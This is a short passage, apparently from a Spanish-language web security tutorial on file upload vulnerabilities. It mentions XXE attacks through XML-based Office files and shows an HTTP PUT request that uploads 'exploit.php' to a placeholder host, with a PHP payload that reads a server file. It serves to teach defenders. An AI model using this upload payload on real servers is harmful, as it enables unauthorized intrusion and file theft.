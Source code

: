_Si el archivo cargado parece estar almacenado y servido de forma segura, el último recurso es tratar de explotar vulnerabilidades específicas para el análisis o procesamiento de diferentes formatos de archivo. Por ejemplo, usted sabe que el servidor analiza archivos basados en XML, como Microsoft Office `.doc`o o `.xls`archivos, esto puede ser un vector potencial para ataques de inyección XXE._

## Subir archivos usando PUT

_Vale la pena señalar que algunos servidores web pueden ser configurados para soportar `PUT`peticiones. Si las defensas adecuadas no están en su lugar, esto puede proporcionar un medio alternativo de cargar archivos maliciosos, incluso cuando una función de carga no está disponible a través de la interfaz web._

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
